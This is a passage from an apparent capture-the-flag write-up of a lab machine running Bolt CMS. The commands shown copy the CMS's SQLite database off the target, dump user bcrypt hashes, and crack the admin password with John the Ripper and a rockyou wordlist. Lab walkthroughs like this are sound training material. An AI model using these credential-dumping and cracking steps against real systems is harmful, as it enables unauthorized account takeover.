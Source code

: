 We try to brute force the password has using john. The hash algorithm is bcrypt and
the password doesn't seems to be on the rockyou top 10 000 (+ the three passwords found
earlier).

### Production DB

We are working on the backup database. Let us just get the "production" one.
And dump the same table. The hash is different.

    :::text
    scp bolt@10.10.10.159:/var/www/html/bolt/app/database/bolt.db ./
    Enter passphrase for key '/root/.ssh/id_rsa':
    bolt.db    100%  296KB  65.2KB/s   00:04
    sqlite3 bolt.db
    SQLite version 3.30.1 2019-10-10 20:19:45
    Enter ".help" for usage hints.
    sqlite> select * from bolt_users;
    1|admin|$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK|bolt@registry.htb|2019-12-04 12:58:05|10.10.16.58|Admin|["files://ls.php.png"]|1||||0||["root","everyone"]
    2|test|$2y$10$8GeiNSHiL3pAlMyRvjY2seroSOYQnvRKmZxk/iadII3lKPYhsvh1S|a@a.a|2019-12-04 09:09:13|10.10.14.218|testingtege|["files://166912.jpg"]|1||||0||["editor","chief-editor","admin","developer","guest","root","everyone"]

This time john is more efficient and we found the password almost immediately.

    :::text
    john  hash -w=~/tools/password_lists/rockyou.txt
    Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
    Use the "--format=bcrypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    strawberry       (?)
    1g 0:00:00:04 DONE (2019-12-04 16:38) 0.2439g/s 87.80p/s 87.80c/s 87.80C/s strawberry..brianna
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

## Bolt CMS

We go to the [bolt](https://bolt.cm/) login interface.
